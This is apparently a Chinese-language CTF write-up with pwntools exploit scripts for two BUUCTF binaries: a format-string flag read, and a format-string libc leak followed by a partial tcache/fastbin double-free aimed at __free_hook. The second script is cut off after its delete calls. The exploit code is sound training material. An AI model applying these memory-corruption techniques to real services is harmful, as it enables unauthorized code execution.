# buu107-judgement_mna_2016
字符串比较，格式化字符串漏洞直接能给flag读出来

```python
from pwn import *

elf = ELF('./judgement_mna_2016')
# io = process(['./judgement_mna_2016'])
io = remote('node5.buuoj.cn', 28122)

payload = b'%45$s  \x00' + packing.p32(elf.symbols['flag'])

io.sendlineafter(b'Flag judgment system\nInput flag >> ', payload)
io.interactive()
```

# buu108-ciscn_2019_en_3
格式化字符串泄露libc基地址，因为这个是带了检查的因此不能直接使用`%7$x`这样的参数，但是可以通过`%c`一个个往后泄露，这个是检查不了的，然后借助fastbin dup，use after free之后chunk进入tcache，可以避免fastbin中对于chunk大小的检查，因此可以分配到任意地址去，尝试了`__malloc_hook`的三个one_gadget发现都不行，因此使用`__free_hook`来完成利用。

```python
from pwn import *
context.log_level = 'debug'

elf = ELF('./ciscn_2019_en_3')
# io = process(['glibc_run', '2.27', './ciscn_2019_en_3'])
io = remote('node5.buuoj.cn', 26164)

def get_process_pid(name):
    pid_list = []
    processes = os.popen('ps -ef | grep %s' % name)
    process_info = processes.read()
    for i in process_info.split('\n')[:-1]:
        j = re.split(' +', i)
        if j[7] == name:
            pid_list.append(int(j[1]))
    return pid_list[0]

def add(size, content):
	io.sendlineafter(b'Input your choice:', b'1')
	io.sendlineafter(b'Please input the size of story: \n', str(size).encode())
	io.sendlineafter(b'please inpute the story: \n', content)
	
def delete(index):
	io.sendlineafter(b'Input your choice:', b'4')
	io.sendlineafter(b'Please input the index:\n', str(index).encode())

io.sendlineafter(b'What\'s your name?\n', b'%c%c%c%c%c%c%llx' + packing.p64(0) * 2)	# 0x680
io.recv(6)
libc_base = int(io.recv(12).decode(), 16) - 0x3ec680
system = libc_base + 0x4f440
__malloc_hook = libc_base + 0x3ebc30
__free_hook = libc_base + 0x3ed8e8
realloc = libc_base + 0x98c30
# io.sendlineafter(b'ID.\n', b'flag')
print("libc_base: " + hex(libc_base))
for i in range(9):
	add(0x60, b'a')
for i in range(7):
	delete(i)
delete(7)
```